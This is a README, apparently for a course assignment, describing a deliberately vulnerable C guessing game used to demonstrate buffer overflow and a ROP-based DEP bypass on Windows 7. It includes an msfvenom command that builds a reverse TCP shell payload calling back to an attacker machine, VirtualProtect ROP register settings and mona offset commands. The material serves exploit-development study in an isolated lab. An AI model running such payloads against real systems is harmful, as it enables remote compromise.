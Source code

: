# GuesstheNumber
## About the Software
GuesstheNumber is a simple CLI game to guess a 4 digits number. A player is required to enter their name in the passcode file. The  application reads the name from the file and asks the user to enter number of attempts to guess the number, which is randomly generated in the background. If the user guesses the number within the chosen number of attempts it displays "You Won!" otherwise game ends with "Better luck next time!". The primary purpose of the game is to demonstrate buffer overflow vulnerabilities in  C functions (eg. strcpy, scanf) and demonstrate how they can be exploited using Return Oriented Programming (ROP) technique despite modern Operating Systems such as Windows 7 having protection mechanisms such as Dynamic Execution Prevention(DEP), Address Space Layout Randomization (ASLR) etc.

## Folder Structure 

Folder structure for the files submitted is as below
| Folder | Files|
|-------------|----------------------------|
|App          |guessthenumber.c guessdll.c |
|DEP Demo     |DEPBypassDemo_z5307356.mp4  |
|Exploit      | exploit.py exploit2.py     |   
|Makefile     |   Makefile                 |
|             | .gitignore                 |
|             |ReadMe.md                   |

## Compiling the Software
Binaries have been provided and no further change to the source code is required before compiling the software. Further details are in the section below.

> Note Makefile is supplied but is not guaranteed to work.

Use the MinGW C compiler for Windows.
- First compile the dll file:
```sh
gcc.exe -c guessdll.c
gcc.exe -shared -o guessdll.dll -Wl,--out-implib=guessdll.a -Wl,--image-base=0x62500000 guessdll.o
```

- Then compile the main program:
```sh
gcc.exe guessthenumber.c -o guess.exe -Wl,--image-base=0x63600000 -lws2_32 ./guessdll.a
```
## Running the Software
Steps for running the Software as below:
- Please makes sure that the guess.exe, guessdll.dll and passcode.txt are in the same directory. otherwise the program will not read the passcode and bufferoverflow will not occur.
- For debugging purposes Immunity Debugger can be used to control the flow of the program and conduct deeper analysis of registers, stack, machine code and  bypass DEP.

## Operating Systems
- Windows 7 Professional Service Pack 1 - Victim Machine 
- Kali 2022.3 - Attacker 

## Virtual Machine 
- VirtualBox 6.1 
- For the first exploit make sure that there is connectivity between the vitrual machines and IP address is updated accordingly when building the shellcode. To configure network connectivity go to setting -> Select Network -> Under Adapter 1 tab select NAT network and enter a name. Make sure that the name is same for both Windows and Kali machine 
- Also, under Setting  select system and make sure that the Enable PAE/NX box is ticked under processor tab.

## Programming Languages
- GuesstheNumber game developed in C Programming language and compiled using MINGW compiler
- Exploit Developed in Python 2.7 

## Exploitation 
Enable DEP in the target machine 
- right click on Computer and select Properties 
- click on Advanced System Settings and open the "Advanced" tab
- Under "Performance" click on "Settings" and go to Data Execution prevention
- Click on the radio button "Turn on DEP for all programs and services except those I select.
- Restart the Machine 

Generating Reverse TCP Shellcode 
-   msfvenom -n 100 -p windows/shell_reverse_tcp -f python -x x86 --platform windows -b         "\x00\x0d\x0a\x2f" -e x86/shiakata_ga_nai LHOST=192.168.10.5 LPORT=443 > reverse_tcp1.sc where LHOST is IP Address of Kali Machine

Win API Funtion Used to Bypass DEP is VirtualProtect
-   BOOL VirtualProtect(     => Pointer to VirtualProtect
  [in]  LPVOID lpAddress,    => Return Address
  [in]  SIZE_T dwSize,       => value is 0x201
  [in]  DWORD  flNewProtect, =>value is 0x40    
  [out] PDWORD lpflOldProtect => writable pointer 
);
- To achieve the above we need following values in the register and the exploit file is written to capture the following 
EAX - No Operations with value 90909090
ECX - Writable Pointer =>lpflOldProtect
EDX - 00000040 => flNewProtect
EBX - 00000201 => dwSize
ESP - No action required
EBP - JMP ESP or PUSH ESP & RETN
ESI - Pointer to virtual Protect 
EDI - same as EIP

Before configuring the above details for the registers check if the bufferflow happens by injecting 500 A's 
Then find the offset for the EIP using the pattern generated by mona using the command 
```sh
!mona pattern_create 500
!mona suggest 
````
Find the return address in the guessdll file and include it in the exploit and develop the ROP chain as per the instruction above followed by NOP SLED.Shellcode for Calc (exploit2.py ) or Reverse_TCP(exploit.py) is added to the exploit followed by junk.
Please check the exploit files for further details.

## Exploit files 
There are two exploit files inclduded in this submission
- first one to bypass DEP and execute Reverse Shell connection to the Kali Machine
- second one bypass DEP and dispaly calc in the local Windows machine. Demonstration inclduded in the submission.

## Generating Shellcode 
Use the following command to generate shellcode
```sh
python exploit.py
```
Once shellcode file 'passcode.txt'is generated copy it to the directory where guess.exe and guessdll.dll files exist.

## References 
1. https://www.youtube.com/watch?v=HUfNUqsyb88&t=323s
2. https://h0mbre.github.io/Creating_Win32_ROP_Chains/#
3. https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect
4. https://tahadraidia.com/posts/alternative-to-jmp-esp/
5. https://www.corelan.be/index.php/2010/06/16/exploit-writing-tutorial-part-10-chaining-dep-with-rop-the-rubikstm-cube/
6. https://www.youtube.com/watch?v=eMUqjImJDXo
7. https://www.thegeekstuff.com/2013/06/buffer-overflow/
8. https://www.slideshare.net/CeSeNA/exploit-techniques-8833216?next_slideshow=8833216
9. http://grey-corner.blogspot.com

## Warning 
UNDER NO CIRCUMSTANCES SHOULD THIS SOFTWARE BE RUN ON ANY SYSTEM THAT IS CONNECTED TO AN UNTRUSTED NETWORK OR THAT PERFORMS CRITICAL FUNCTIONS. THE AUTHOR IS NOT RESPONSIBLE FOR ANY DAMAGES THAT MAY OCCUR FROM USING THIS SOFTWARE IN THIS OR ANY OTHER MANNER. USE AT YOUR OWN RISK.
 

